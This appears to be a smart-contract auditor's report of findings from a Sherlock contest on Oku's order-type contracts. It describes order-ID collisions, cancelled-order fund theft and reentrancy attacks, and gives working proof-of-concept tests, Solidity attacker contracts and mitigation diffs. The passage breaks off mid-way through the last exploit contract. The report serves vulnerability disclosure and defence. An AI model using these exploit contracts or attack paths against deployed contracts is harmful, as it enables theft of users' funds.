

# Leaderboard
[Oku's Results](https://audits.sherlock.xyz/contests/641?filter=results)<br>

`Rank 31 / 309` <br>


# Audited Code Repo
### [Sherlock: Oku's New Order Types](https://audits.sherlock.xyz/contests/641)
### [Github: Oku's New Order Types](https://github.com/gfx-labs/oku-custom-order-types/tree/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971)

<br>

# <a id="summaryTable"></a>Bugs Filed & Their Status

| #      | Bug ID          | Name | URL    | Adjudged Status  |
|--------|-----------------|------|:------:|-----------------:|
| 1      | [H-01](#h-01)   | OrderID generated by generatedOrderId() may not be unique and can overwrite existing order, causing funds to be lost | [132](https://github.com/sherlock-audit/2024-11-oku-judging/issues/132) | Accepted as High |
| 2      | [H-02](#h-02)   | Funds can be stolen via modifying cancelled orders | [190](https://github.com/sherlock-audit/2024-11-oku-judging/issues/190) | Accepted as High |
| 3      | [H-03](#h-03)   | Attacker can delete other user's orders due to lack of reentrancy protection in cancelOrder() | [301](https://github.com/sherlock-audit/2024-11-oku-judging/issues/301) | Accepted as High |
| 4      | [H-04](#h-04)   | Lack of nonReentrant modifier in fillOrder() and modifyOrder() allows attacker to steal funds | [421](https://github.com/sherlock-audit/2024-11-oku-judging/issues/421) | Accepted as High |
| 5      | [M-01](#m-01)   | performUpkeep() may fail when tokenIn is USDT due to allowance change from non-zero to non-zero value inside `execute()` | [110](https://github.com/sherlock-audit/2024-11-oku-judging/issues/110) | Accepted as Med |
| 6      | [M-02](#m-02)   | Incorrect validation in performUpkeep() can lead to incorrect order being executed | [195](https://github.com/sherlock-audit/2024-11-oku-judging/issues/195) | Rejected |
| 7      | [M-03](#m-03)   | PythOracle::currentValue() will always revert for prices which are not stale | [550](https://github.com/sherlock-audit/2024-11-oku-judging/issues/550) | Accepted as Med |
| 8      | [M-04](#m-04)   | Incomplete check for stale data inside OracleRelay::currentValue() | [566](https://github.com/sherlock-audit/2024-11-oku-judging/issues/566) | Rejected |

<br>
<br>

## **HIGH-SEVERITY BUGS**
---

### <a id="h-01"></a>[H-01]
## **OrderID generated by generatedOrderId() may not be unique and can overwrite existing order, causing funds to be lost**
#### https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/automatedTrigger/AutomationMaster.sol#L92
<br>

## Description
[generateOrderId()](https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/automatedTrigger/AutomationMaster.sol#L92) makes use of `block.timestamp` and sender's address to generate a unique order id:
```js
  File: contracts/automatedTrigger/AutomationMaster.sol

    89:              ///@notice generate a random and unique order id
    90:              function generateOrderId(address sender) external view override returns (uint96) {
    91:                  uint256 hashedValue = uint256(
    92:@--->                 keccak256(abi.encodePacked(sender, block.timestamp))
    93:                  );
    94:                  return uint96(hashedValue);
    95:              }
```

However multiple txs by the `sender` in the same block can have the same timestamp. In fact on a L2 like Arbitrum, different blocks with unique block numbers may share the same timestamp.

`generateOrderId()` is called internally by [_createOrder()](https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/automatedTrigger/Bracket.sol#L477). ( _Called similarly from within `StopLimit.sol` and `OracleLess.sol` too._ )
```js
  File: contracts/automatedTrigger/Bracket.sol

   444:              function _createOrder(
   445:                  uint256 takeProfit,
   446:                  uint256 stopPrice,
   447:                  uint256 amountIn,
   448:                  uint96 existingOrderId,
   449:                  IERC20 tokenIn,
   450:                  IERC20 tokenOut,
   451:                  address recipient,
   452:                  uint16 feeBips,
   453:                  uint16 takeProfitSlippage,
   454:                  uint16 stopSlippage
   455:              ) internal {
   456:                  //verify both oracles exist, as we need both to calc the exchange rate
   457:                  require(
   458:                      address(MASTER.oracles(tokenIn)) != address(0x0) &&
   459:                          address(MASTER.oracles(tokenIn)) != address(0x0),
   460:                      "Oracle !exist"
   461:                  );
   462:                  require(
   463:                      pendingOrderIds.length < MASTER.maxPendingOrders(),
   464:                      "Max Order Count Reached"
   465:                  );
   466:                  require(
   467:                      stopSlippage <= 10000 &&
   468:                          takeProfitSlippage <= 10000 &&
   469:                          feeBips <= 10000,
   470:                      "BIPS > 10k"
   471:                  );
   472:          
   473:                  MASTER.checkMinOrderSize(tokenIn, amountIn);
   474:          
   475:                  //generate random but unique order id if there is not an existing orderId from a stop limit order
   476:                  if (existingOrderId == 0) {
   477:@--->                 existingOrderId = MASTER.generateOrderId(msg.sender);
   478:                  }
   479:          
   480:                  //construct order
   481:                  orders[existingOrderId] = Order({
   482:                      orderId: existingOrderId,
   483:                      takeProfit: takeProfit,
   484:                      stopPrice: stopPrice,
   485:                      amountIn: amountIn,
   486:                      tokenIn: tokenIn,
   487:                      tokenOut: tokenOut,
   488:                      recipient: recipient,
   489:                      takeProfitSlippage: takeProfitSlippage,
   490:                      feeBips: feeBips,
   491:                      stopSlippage: stopSlippage,
   492:                      direction: MASTER.getExchangeRate(tokenIn, tokenOut) > takeProfit //exchangeRate in/out > takeProfit
   493:                  });
   494:          
   495:                  //store pending order
   496:                  pendingOrderIds.push(existingOrderId);
   497:          
   498:                  emit OrderCreated(existingOrderId);
   499:              }
```

This overwrites the `orders` mapping having the same order id and results in loss of funds pulled in as part of the first order. Consider the following:<br>
Let's trace what happens with Alice's two transactions, assuming both happen in the same block - 
**Transaction 1:**
1. Alice calls `createOrder` with 1000 USDC and parameters for Strategy A
2. `procureTokens` successfully transfers 1000 USDC from Alice to the contract
3. Contract generates orderID = hash(alice_address + block.timestamp)
4. Creates Order A in the mapping with this ID
5. Adds the ID to pendingOrderIds array
6. At this point: Contract has 1000 USDC, Order A exists, ID is in pending array

**Transaction 2:**
1. Alice calls `createOrder` with 1 WETH and parameters for Strategy B
2. `procureTokens` successfully transfers another 1 WETH from Alice to the contract
3. Contract generates the same orderID = hash(alice_address + block.timestamp)
4. Creates Order B in the mapping with this ID, overwriting Order A
5. Adds the same ID to pendingOrderIds again (duplicate entry)
6. Final state: Contract has 1000 USDC & 1 WETH, but Order A is gone - only Order B exists. 

## Impact
- There is no way to rescue the 1000 USDC. 
    - Calling `cancelOrder(uint96 orderId)` can only cancel Order B. 
    - Calling `modifyOrder()` also can't access the lost Order A.
- While one of the duplicate entries in pendingOrderIds array gets deleted upon execution, the other one is permanently stuck there.

## Mitigation 
It's recommended to include inside `generateOrderId()` a monotonically increasing orderId acting as a nonce so that each order id is truly unique.

[Back to Top](#summaryTable)
---

### <a id="h-02"></a>[H-02]
## **Funds can be stolen via modifying cancelled orders**
#### https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/automatedTrigger/Bracket.sol#L501-L520
<br>

## Description
The `Bracket` contract has a vulnerability where cancelled orders can still be modified to steal funds from other active orders ( _Similar logic exists inside `StopLimit.sol` and `OracleLess.sol` too._ ). This occurs because:

1. When an order is cancelled via `cancelOrder()`, [it is removed from the `pendingOrderIds` array but the `Order` struct remains in the `orders` mapping](https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/automatedTrigger/Bracket.sol#L501-L520)
2. The [modifyOrder()](https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/automatedTrigger/Bracket.sol#L216-L233) function only checks that the caller is the original order recipient but does not verify if the order is still active (i.e., present in `pendingOrderIds`)
3. The token refund in `modifyOrder()` uses the contract's total balance without verifying if those specific funds belong to the order being modified.

This enables the following attack scenario:
1. Bob (naive user) creates a legitimate order with 100 WETH
2. Alice (attacker) creates an order with 100 WETH
3. Alice cancels her order (gets her 100 WETH back)
4. The contract still has Bob's 100 WETH
5. Alice calls `modifyOrder()` on her cancelled order and decreases the position size to 50 WETH
6. Since the order struct still exists and Alice is the recipient, she is given back the 50 WETH which are actually Bob's funds.

## Impact
High. This vulnerability allows malicious users to steal funds from legitimate active orders in the system. 

## PoC
Add a new file inside `test/triggerV2` with the following code and run via `npx hardhat test --grep "Test Fund Stealing Vector"` to see it pass.
<details>
<summary>
Click to Expand
</summary>

```js
import { AutomationMaster__factory, Bracket__factory, IERC20__factory, PlaceholderOracle__factory, StopLimit__factory, UniswapV3Pool__factory } from "../../typechain-types"
import { currentBlock, resetCurrentArbBlock } from "../../util/block"
import { expect } from "chai"
import { stealMoney } from "../../util/money"
import { s } from "./scope"
import { ethers } from "hardhat"
import { DeployContract } from "../../util/deploy"
import { a } from "../../util/addresser"  

describe("Test Fund Stealing Vector", () => {
    let bobOrder: bigint
    let aliceOrder: bigint
    const stopDelta = ethers.parseUnits("500", 8)
    const strikeDelta = ethers.parseUnits("100", 8)
    const strikeBips = 500
    const steveBips = 500

    before(async () => {
        console.log("STARTING")
        await resetCurrentArbBlock(235660173)
        console.log("Testing on ARB @", (await currentBlock())?.number)

        //connect to signers
        s.signers = await ethers.getSigners()
        s.Frank = s.signers[0]
        s.Andy = s.signers[1]
        s.Bob = s.signers[2]
        s.Charles = s.signers[3]
        s.Steve = s.signers[4]
        s.Oscar = s.signers[5]
        s.Gary = s.signers[6]

        s.UniPool = UniswapV3Pool__factory.connect(s.pool, s.Frank)
        s.WETH = IERC20__factory.connect(await s.UniPool.token0(), s.Frank)
        s.USDC = IERC20__factory.connect(await s.UniPool.token1(), s.Frank)
        s.ARB = IERC20__factory.connect("0x912CE59144191C1204E64559FE8253a0e49E6548", s.Frank)
        s.UNI = IERC20__factory.connect("0xFa7F8980b0f1E64A2062791cc3b0871572f1F7f0", s.Frank)

        // Deploy contracts using permit2 address from addresser
        s.Master = await DeployContract(new AutomationMaster__factory(s.Frank), s.Frank)
        s.Bracket = await DeployContract(new Bracket__factory(s.Frank), s.Frank, await s.Master.getAddress(), a.permit2)
        s.StopLimit = await DeployContract(
            new StopLimit__factory(s.Frank),
            s.Frank,
            await s.Master.getAddress(),
            await s.Bracket.getAddress(),
            a.permit2
        )

        // Deploy oracles
        s.wethOracle = await new PlaceholderOracle__factory(s.Frank).deploy(await s.WETH.getAddress())
        s.usdcOracle = await new PlaceholderOracle__factory(s.Frank).deploy(await s.USDC.getAddress())
        s.uniOracle = await new PlaceholderOracle__factory(s.Frank).deploy(await s.UNI.getAddress())
        s.arbOracle = await new PlaceholderOracle__factory(s.Frank).deploy(await s.ARB.getAddress())

        // Register contracts
        await s.Master.connect(s.Frank).registerSubKeepers(
            await s.StopLimit.getAddress(),
            await s.Bracket.getAddress()
        )

        // Register oracles
        const tokens = [await s.WETH.getAddress(), await s.USDC.getAddress(), await s.UNI.getAddress(), await s.ARB.getAddress()]
        const oracles = [await s.wethOracle.getAddress(), await s.usdcOracle.getAddress(), await s.uniOracle.getAddress(), await s.arbOracle.getAddress()]
        await s.Master.connect(s.Frank).registerOracle(tokens, oracles)

        // Set parameters
        await s.Master.connect(s.Frank).setMaxPendingOrders(s.maxPendingOrders)
        await s.Master.connect(s.Frank).setMinOrderSize(s.minOrderSize)

        // Set initial prices
        await s.wethOracle.setPrice(s.initialEthPrice)
        await s.usdcOracle.setPrice(s.initialUsdcPrice)
        await s.uniOracle.setPrice(s.initialUniPrice)
        await s.arbOracle.setPrice(s.initialArbPrice)

        //fund Bob and Alice with WETH
        await stealMoney(s.wethWhale, await s.Bob.getAddress(), await s.WETH.getAddress(), s.wethAmount)
        await stealMoney(s.wethWhale, await s.Andy.getAddress(), await s.WETH.getAddress(), s.wethAmount) // Using Andy as Alice
    })

    it("Bob creates legitimate order", async () => {
        const currentPrice = await s.Master.getExchangeRate(await s.WETH.getAddress(), await s.USDC.getAddress())
        
        // Bob creates order
        await s.WETH.connect(s.Bob).approve(await s.Bracket.getAddress(), s.wethAmount)
        await s.Bracket.connect(s.Bob).createOrder(
            "0x",
            currentPrice + strikeDelta,
            currentPrice - stopDelta,
            s.wethAmount,
            await s.WETH.getAddress(),
            await s.USDC.getAddress(),
            await s.Bob.getAddress(),
            5, 
            strikeBips,
            steveBips,
            false,
            "0x"
        )

        // Get Bob's order ID
        const filter = s.Bracket.filters.OrderCreated
        const events = await s.Bracket.queryFilter(filter, -1)
        const event = events[0].args
        bobOrder = event[0]

        // Verify Bob's order
        const order = await s.Bracket.orders(bobOrder)
        expect(order.recipient).to.eq(await s.Bob.getAddress(), "Bob's order")
        expect(await s.WETH.balanceOf(await s.Bracket.getAddress())).to.eq(s.wethAmount, "Contract has Bob's WETH")
    })

    it("Alice creates and cancels order", async () => {
        const currentPrice = await s.Master.getExchangeRate(await s.WETH.getAddress(), await s.USDC.getAddress())
        
        // Initial balance
        const aliceInitialBalance = await s.WETH.balanceOf(await s.Andy.getAddress())

        // Alice creates order
        await s.WETH.connect(s.Andy).approve(await s.Bracket.getAddress(), s.wethAmount)
        await s.Bracket.connect(s.Andy).createOrder(
            "0x",
            currentPrice + strikeDelta,
            currentPrice - stopDelta,
            s.wethAmount,
            await s.WETH.getAddress(),
            await s.USDC.getAddress(),
            await s.Andy.getAddress(),
            5, 
            strikeBips,
            steveBips,
            false,
            "0x"
        )

        // Get Alice's order ID
        const filter = s.Bracket.filters.OrderCreated
        const events = await s.Bracket.queryFilter(filter, -1)
        const event = events[0].args
        aliceOrder = event[0]

        // Verify contract balance increased
        expect(await s.WETH.balanceOf(await s.Bracket.getAddress())).to.eq(s.wethAmount * 2n, "Contract has both orders' WETH")

        // Alice cancels her order
        await s.Bracket.connect(s.Andy).cancelOrder(aliceOrder)

        // Verify Alice got her funds back
        expect(await s.WETH.balanceOf(await s.Andy.getAddress())).to.eq(aliceInitialBalance, "Alice got her WETH back")

        // Verify contract still has Bob's funds
        expect(await s.WETH.balanceOf(await s.Bracket.getAddress())).to.eq(s.wethAmount, "Contract still has Bob's WETH")
    })

    it("Alice steals funds by modifying cancelled order", async () => {
        const stolenAmount = s.wethAmount / 2n // Try to steal half of Bob's WETH

        // Get Alice's balance before the attack
        const aliceBalanceBefore = await s.WETH.balanceOf(await s.Andy.getAddress())

        // Alice modifies her cancelled order to withdraw funds
        await s.Bracket.connect(s.Andy).modifyOrder(
            aliceOrder,
            0, // takeProfit doesn't matter
            0, // stopPrice doesn't matter
            stolenAmount, // amount to steal
            await s.USDC.getAddress(),
            await s.Andy.getAddress(),
            0, // slippage doesn't matter
            0, // slippage doesn't matter
            false,
            false, // decreasing position to steal funds
            "0x"
        )

        // Verify Alice received stolen funds
        const aliceBalanceAfter = await s.WETH.balanceOf(await s.Andy.getAddress())
        expect(aliceBalanceAfter).to.eq(aliceBalanceBefore + stolenAmount, "Alice stole WETH")

        // Verify contract balance decreased by stolen amount
        expect(await s.WETH.balanceOf(await s.Bracket.getAddress())).to.eq(s.wethAmount - stolenAmount, "Contract lost WETH")
    })
})
```

</details>

## Mitigation
Delete the order from the `orders` mapping when cancelling ( _Make similar fix inside `StopLimit.sol` and `OracleLess.sol` too._ ):
```diff
  File: contracts/automatedTrigger/Bracket.sol

   501:              function _cancelOrder(Order memory order) internal returns (bool) {
   502:                  for (uint96 i = 0; i < pendingOrderIds.length; i++) {
   503:                      if (pendingOrderIds[i] == order.orderId) {
   504:                          //remove from pending array
   505:                          pendingOrderIds = ArrayMutation.removeFromArray(
   506:                              i,
   507:                              pendingOrderIds
   508:                          );
   509:                          
   510:                          //refund tokenIn amountIn to recipient
   511:                          order.tokenIn.safeTransfer(order.recipient, order.amountIn);
   512:          
   513:                          //emit event
   514:                          emit OrderCancelled(order.orderId);
-  515:                          
+  515:                          delete orders[order.orderId];
   516:                          return true;
   517:                      }
   518:                  }
   519:                  return false;
   520:              }
```

[Back to Top](#summaryTable)
---

### <a id="h-03"></a>[H-03]
## **Attacker can delete other user's orders due to lack of reentrancy protection in cancelOrder()**
#### https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/automatedTrigger/Bracket.sol#L309
<br>

## Description
**_Root Causes:_**
1. `Bracket.sol::performUpkeep()` can be called by anyone with a malicious `performData`. 
2. `Bracket.sol::cancelOrder()` [has a missing](https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/automatedTrigger/Bracket.sol#L309) `nonReentrant` modifier.

**_Attack Path:_** (Please refer PoC for detailed execution flow)
1. Attacker has a order in the `pendingOrderIds` array at index `i`. His order's recipient is a contract with address say, `target`.
2. Victim (naive user) has a order in the `pendingOrderIds` array at index `i + 1`.
3. Attacker's order is in range so he calls `performUpkeep()` with malicious `performData`.
4. `performUpkeep()` internally calls `execute()` which internally calls `target.call(txData)` where both `target` and `txData` are attacker controlled.
5. From inside the `target` contract, he transfers the minimum tokenOut to satisfy balance checks (he'll get these back later). He also makes a call to `cancelOrder()` with his current orderId.
6. `cancelOrder` has no reentrancy protection. It happily cancels the order and refunds the invested tokenIn to the order recipient which is the `target` address. 
7. This cancellation causes deletion of attacker's order from pendingOrderIds array and victim's order now shifts left & occupies index `i`.
8. Once control returns from the external `target.call()`, the performUpkeep() function continues ahead and deletes the order at index `i`, this time actually deleting the victim's order. 

**_Important Note:_** An identical issue dynamic exists inside `OracleLess.sol::fillOrder()` and `OracleLess.sol::cancelOrder()`. Follow a similar attack path to exploit there too.

## Impact
High. Loss of entire order's funds for the victim at no substantial cost to the attacker.

## Proof Of Concept
1. First, add a file named `MaliciousTarget.sol` under the `contracts/` directory:
<details>
<summary>
View MaliciousTarget.sol
</summary>

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "./interfaces/openzeppelin/IERC20.sol";
import "./interfaces/openzeppelin/SafeERC20.sol";

contract MaliciousTarget {
    using SafeERC20 for IERC20;

    address public immutable bracketContract;
    IERC20 public immutable weth;
    IERC20 public immutable usdc;
    
    constructor(address _bracket, address _weth, address _usdc) {
        bracketContract = _bracket;
        weth = IERC20(_weth);
        usdc = IERC20(_usdc);
        usdc.safeApprove(_bracket, type(uint256).max);
    }
    
        
    // Simple function that takes just the order ID we want to cancel
    function attack(uint96 orderId) external returns (bool) {
        // send USDC to pass balance checks
        uint256 usdcToSend = 1; // 1 wei of USDC to satisfy balance checks
        usdc.safeTransfer(msg.sender, usdcToSend);
        
        // Now do the reentrancy attack
        (bool cancelSuccess,) = bracketContract.call(
            abi.encodeWithSignature("cancelOrder(uint96)", orderId)
        );
        require(cancelSuccess);

        return cancelSuccess;
    }

    receive() external payable {}
}
```

</details>

<br>
2. Second, add the following test case inside `test/triggerV2/failure_STOP_LOSS_LIMIT.ts` and run to see it pass:
<details>
<summary>
View Test Case
</summary>

```diff
diff --git a/oku-custom-order-types/test/triggerV2/failure_STOP_LOSS_LIMIT.ts b/oku-custom-order-types/test/triggerV2/failure_STOP_LOSS_LIMIT.ts
index 97c74cc..3701a74 100644
--- a/oku-custom-order-types/test/triggerV2/failure_STOP_LOSS_LIMIT.ts
+++ b/oku-custom-order-types/test/triggerV2/failure_STOP_LOSS_LIMIT.ts
@@ -7,6 +7,168 @@ import { s, SwapParams } from "./scope"
 import { DeployContract } from "../../util/deploy"
 import { ethers } from "hardhat"
 
+describe("Remove Other's Orders Using Reentrancy Attack via cancelOrder", () => {
+    let attackContract: string
+    let attackerOrder: bigint
+    let bobOrder: bigint
+    let attackWithWETH: bigint
+    
+    before(async () => {
+        // Fund both the victim and attacker
+        await stealMoney(s.wethWhale, await s.Bob.getAddress(), await s.WETH.getAddress(), s.wethAmount)
+        await stealMoney(s.wethWhale, await s.Steve.getAddress(), await s.WETH.getAddress(), s.wethAmount)
+        
+        // Deploy our malicious contract
+        const AttackFactory = await ethers.getContractFactory("MaliciousTarget")
+        const attack = await AttackFactory.connect(s.Steve).deploy(
+            await s.Bracket.getAddress(),
+            await s.WETH.getAddress(),
+            await s.USDC.getAddress()
+        )
+        attackContract = await attack.getAddress()
+        
+        // Pre-fund attack contract with a large amount of USDC to ensure we pass balance checks
+        // Using 2000 USDC which should be more than enough
+        await stealMoney(s.usdcWhale, attackContract, await s.USDC.getAddress(), BigInt(2000000000))
+        
+        // Reset oracle price for clean test state
+        await s.wethOracle.setPrice(s.initialEthPrice)
+    })
+
+    it("Sets up victim and attacker orders", async () => {
+        attackWithWETH = s.wethAmount / 500n
+        // Create attacker's order - at index i
+        console.log("Attacker creates order with WETH tokenIn =", ethers.formatEther(attackWithWETH));
+        await s.WETH.connect(s.Steve).approve(await s.Bracket.getAddress(), s.wethAmount)
+        await s.Bracket.connect(s.Steve).createOrder(
+            "0x",
+            s.initialEthPrice + BigInt(ethers.parseUnits("100", 8)),
+            s.initialEthPrice - BigInt(ethers.parseUnits("100", 8)),
+            s.wethAmount / 500n,
+            await s.WETH.getAddress(),
+            await s.USDC.getAddress(),
+            attackContract,  // Our malicious contract as recipient
+            0, 
+            10000, // takeProfitSlippage as 100%
+            10000, // stopSlippage as 100%
+            false,
+            "0x"
+        )
+        
+        // Get attacker's order ID
+        let events = await s.Bracket.queryFilter(s.Bracket.filters.OrderCreated, -1)
+        attackerOrder = events[0].args[0]
+        console.log("attackerOrder id", attackerOrder);
+
+        // Create naive user Bob's order - at index i+1
+        await s.WETH.connect(s.Bob).approve(await s.Bracket.getAddress(), s.wethAmount)
+        await s.Bracket.connect(s.Bob).createOrder(
+            "0x",
+            s.initialEthPrice + BigInt(ethers.parseUnits("100", 8)),
+            s.initialEthPrice - BigInt(ethers.parseUnits("100", 8)),
+            s.wethAmount / 2n,
+            await s.WETH.getAddress(),
+            await s.USDC.getAddress(),
+            await s.Bob.getAddress(),
+            5,
+            500,
+            500,
+            false,
+            "0x"
+        )
+    
+        // Get Bob's order ID
+        events = await s.Bracket.queryFilter(s.Bracket.filters.OrderCreated, -1)
+        bobOrder = events[0].args[0]
+        console.log("bobOrder id", bobOrder);
+    
+        // Verify pending orders
+        const pendingOrders = await s.Bracket.getPendingOrders()
+        expect(pendingOrders.length).to.equal(2, "Should have two pending orders")
+        expect(pendingOrders[0]).to.equal(attackerOrder, "Attacker's order")
+        expect(pendingOrders[1]).to.equal(bobOrder, "Victim's order")
+    })
+    
+    it("Executes the attack", async () => {
+        console.log("\nStarting attack execution...");
+        
+        // Trigger price condition
+        await s.wethOracle.setPrice(s.initialEthPrice - BigInt(ethers.parseUnits("150", 8)));
+        
+        const check = await s.Master.checkUpkeep("0x");
+        expect(check.upkeepNeeded).to.be.true;
+        
+        // Let's encode our call data properly:
+        // 1. Get the function selector for attack(uint96)
+        const functionSelector = ethers.id("attack(uint96)").slice(0, 10); // includes '0x'
+    
+        // 2. Encode the parameter (our order ID)
+        const encodedOrderId = ethers.AbiCoder.defaultAbiCoder().encode(
+            ["uint96"], 
+            [attackerOrder]
+        ).slice(2); // remove '0x' prefix
+    
+        // 3. Combine them
+        const attackData = functionSelector + encodedOrderId;
+    
+        // Generate the transaction data
+        const encodedTxData = await generateAttackTx(
+            attackContract,
+            attackData,
+            await decodeUpkeepData(check.performData, s.Steve),
+            0 // attacker's pending order index
+        );
+
+        let initWETH = await s.WETH.balanceOf(attackContract);
+        let initUSDC = await s.USDC.balanceOf(attackContract);
+        console.log("\nInitial balances:");
+        console.log("Attack contract WETH:", ethers.formatEther(initWETH));
+        console.log("Attack contract USDC:", ethers.formatUnits(initUSDC, 6));
+        
+        // Execute the attack
+        await s.Master.performUpkeep(encodedTxData);
+        
+        let finalWETH = await s.WETH.balanceOf(attackContract);
+        let finalUSDC = await s.USDC.balanceOf(attackContract);
+        console.log("\nFinal balances:");
+        console.log("Attack contract WETH:", ethers.formatEther(finalWETH));
+        console.log("Attack contract USDC:", ethers.formatUnits(finalUSDC, 6));
+
+        // no cost paid for the attack (ignoring gas)
+        expect(finalWETH).to.equal(initWETH + attackWithWETH);
+        expect(finalUSDC).to.equal(initUSDC);
+    
+        const pendingOrders = await s.Bracket.getPendingOrders();
+        expect(pendingOrders.length).to.equal(0, "Attacker's as well as Victim's orders should be gone"); // @audit-issue : Victim's order lost!
+    });
+
+    const MasterUpkeepTuple = "tuple(uint8 orderType, address target, address tokenIn, address tokenOut, uint96 orderId, uint16 pendingOrderIdx, uint88 bips, uint256 amountIn, uint256 exchangeRate, bytes txData)"
+    async function generateAttackTx(
+        attackContract: string,
+        attackData: string,
+        data: MasterUpkeepData,
+        customPendingOrderIdx: number
+    ) {
+        // Encode the MasterUpkeepData struct directly with our attack data
+        const encodedMasterUpkeepData = ethers.AbiCoder.defaultAbiCoder().encode(
+            [MasterUpkeepTuple],
+            [{
+                orderType: data.orderType,
+                target: attackContract,
+                tokenIn: await data.tokenIn.getAddress(),
+                tokenOut: await data.tokenOut.getAddress(),
+                orderId: data.orderId,
+                pendingOrderIdx: customPendingOrderIdx,
+                bips: data.bips,
+                amountIn: data.amountIn,
+                exchangeRate: data.exchangeRate,
+                txData: attackData  // Use our attack data directly
+            }]
+        );
+    
+        return encodedMasterUpkeepData;
+    }
+})
 
 ///All tests are performed as if on Arbitrum
 ///Testing is on the Arb WETH/USDC.e pool @ 500

```

</details>

<br>

Output:
```text
  Remove Other's Orders Using Reentrancy Attack via cancelOrder
Attacker creates order with WETH tokenIn = 0.0033
attackerOrder id 76139222818434470486421978612n
bobOrder id 29485185317621497626765863989n
    ✔ Sets up victim and attacker orders (39ms)

Starting attack execution...

Initial balances:
Attack contract WETH: 0.0
Attack contract USDC: 2000.0

Final balances:
Attack contract WETH: 0.0033
Attack contract USDC: 2000.0
    ✔ Executes the attack (83ms)
```

## Mitigation
Add the `nonReentrant` modifier to both `Bracket.sol::cancelOrder()` and `OracleLess.sol::cancelOrder()`:
```diff
  File: contracts/automatedTrigger/Bracket.sol

   307:              ///@notice only the order recipient can cancel their order
   308:              ///@notice only pending orders can be cancelled
-  309:              function cancelOrder(uint96 orderId) external {
+  309:              function cancelOrder(uint96 orderId) external nonReentrant {
   310:                  Order memory order = orders[orderId];
   311:                  require(msg.sender == order.recipient, "Only Order Owner");
   312:                  require(_cancelOrder(order), "Order not active");
   313:              }
```

[Back to Top](#summaryTable)
---

### <a id="h-04"></a>[H-04]
## **Lack of nonReentrant modifier in fillOrder() and modifyOrder() allows attacker to steal funds**
#### https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/automatedTrigger/OracleLess.sol#L103
<br>

## Description
**_Root Causes:_**
1. [OracleLess.sol::fillOrder()](https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/automatedTrigger/OracleLess.sol#L103) can be called by anyone with a malicious `txData`. 
2. [OracleLess.sol::fillOrder()](https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/automatedTrigger/OracleLess.sol#L103) lacks a `nonReentrant` modifier. 
3. [OracleLess.sol::modifyOrder()](https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/automatedTrigger/OracleLess.sol#L80) lacks a `nonReentrant` modifier. 

**_Attack Path:_** (Please refer PoC for detailed execution flow)
1. Suppose the current `pendingOrderIds` looks like:
```text
pendingOrderIds = [N,  A1,  A2]
                   0    1    2    (array indices)
```
`Order-N` is by the victim, a naive user. Orders `A1` and `A2` are by the attacker.

2. Attacker has made sure the `Order-A1` and `Order-A2` recipient is a contract with address say, `target`.
3. Attacker's `Order-A1` is in range so they call `fillOrder()` with malicious `txData`.
4. `fillOrder()` internally calls `execute()` which internally calls `target.call(txData)` where both `target` and `txData` are attacker controlled.
5. From inside the `target` contract (let's say a function named `attack()`), they pull the tokenIn (WETH) of `Order-A1` as they have the approval.
6. `attack()` then sends `1 wei` of tokenOut (USDC) or any minimum amount back. The attacker will get this back later.
7. `attack()` then calls `modifyOrder(Order-A1)` and decreases the position size to the minimum allowed. They are immediately credited say, `M` WETH.
8. `attack()` next calls `modifyOrder(Order-A2)` and increases the position size to park this `M` WETH. This is done so that the overall WETH balance of OracelLess contract is not affected by this theft and the [following check](https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/automatedTrigger/OracleLess.sol#L247) about over-spend inside `execute()` passes successfully:
```js
        require(finalTokenIn >= initialTokenIn - order.amountIn, "over spend");
```
9. The control now exits `attack()` and `fillOrder()` continues further. The code goes ahead and removes `Order-A1` from the pending order array and sends back the `1 wei` USDC to `target` on [L141](https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/automatedTrigger/OracleLess.sol#L141). The attacker is at no loss & no gain right now.
10. The attacker now cancels `Order-A2` and receives the `M` WETH back too, thus stealing it from the rightful funds of the victim/protocol.

**_Note:_** In spite of similar structures, this attack can't be carried out inside `Bracket.sol::performUpkeep()` as `Bracket.sol::modifyOrder()` is protected by the `nonReentrant` modifier.

## Impact
High. Victim & protocol funds can be stolen at no substantial cost to the attacker.

## Proof Of Concept
1. First, add a file named `MaliciousOracleLessTarget.sol` under the `contracts/` directory:
<details>
<summary>
View MaliciousOracleLessTarget.sol
</summary>

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import "./interfaces/openzeppelin/IERC20.sol";
import "./interfaces/openzeppelin/SafeERC20.sol";

interface IOracleLess {
    function createOrder(
        IERC20 tokenIn,
        IERC20 tokenOut,
        uint256 amountIn,
        uint256 minAmountOut,
        address recipient,
        uint16 feeBips,
        bool permit,
        bytes calldata permitPayload
